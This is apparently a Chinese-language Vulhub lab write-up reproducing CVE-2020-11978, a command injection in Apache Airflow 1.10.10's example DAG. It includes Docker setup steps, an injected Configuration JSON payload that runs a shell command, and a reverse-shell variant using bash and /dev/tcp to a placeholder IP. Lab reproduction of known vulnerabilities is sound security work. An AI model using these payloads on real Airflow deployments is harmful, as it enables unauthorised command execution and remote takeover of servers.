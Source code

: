 # Apache Airflow 示例DAG中的命令注入 CVE-2020-11978

## 漏洞描述

Apache Airflow是一款开源的分布式任务调度框架，通过DAG（Directed acyclic graph 有向无环图）来管理任务流程的任务调度工具，不需要知道业务数据的具体内容，设置任务的依赖关系即可实现任务调度。

在其1.10.10版本及以前的示例DAG中存在一处命令注入漏洞，未授权的访问者可以通过这个漏洞在Worker中执行任意命令。

由于启动的组件比较多，可能会有点卡，运行此环境可能需要准备2G以上的内存。

参考链接：

- https://lists.apache.org/thread/cn57zwylxsnzjyjztwqxpmly0x9q5ljx
- https://github.com/pberba/CVE-2020-11978

## 环境搭建

Vulhub依次执行如下命令启动Apache Airflow 1.10.10：

```
#初始化数据库
docker-compose run airflow-init

#启动服务
docker-compose up -d
```

服务器启动后，访问`http://your-ip:8080/admin/airflow/login`即可查看到登录页面。

## 漏洞复现

访问`http://your-ip:8080/admin/airflow/login`进入airflow管理端，将`example_trigger_target_dag`前面的Off改为On：

![image-20220329111338269](C:/Users/47236/AppData/Roaming/Typora/typora-user-images/image-20220329111338269.png)

再点击执行按钮，在Configuration JSON中输入：`{"message":"'\";touch /tmp/airflow_dag_success;#"}`，再点`Trigger`执行dag：

![image-20220329111358392](C:/Users/47236/AppData/Roaming/Typora/typora-user-images/image-20220329111358392.png)

等几秒可以看到执行成功：

![image-20220329111445804](C:/Users/47236/AppData/Roaming/Typora/typora-user-images/image-20220329111445804.png)

到CeleryWorker容器中进行查看：

```
docker-compose exec airflow-worker ls -l /tmp
```

可以看到`touch /tmp/airflow_dag_success`成功被执行：

![image-20220329111605593](C:/Users/47236/AppData/Roaming/Typora/typora-user-images/image-20220329111605593.png)

### 反弹shell

相同方法执行反弹shell：

```
{"message":"'\";bash -i >& /dev/tcp/your-ip/9999 0>&1;#"}
```

![image-20220329113417901](C:/Users/47236/AppData/Roaming/Typora/typora-user-images/image-20220329113417901.png)

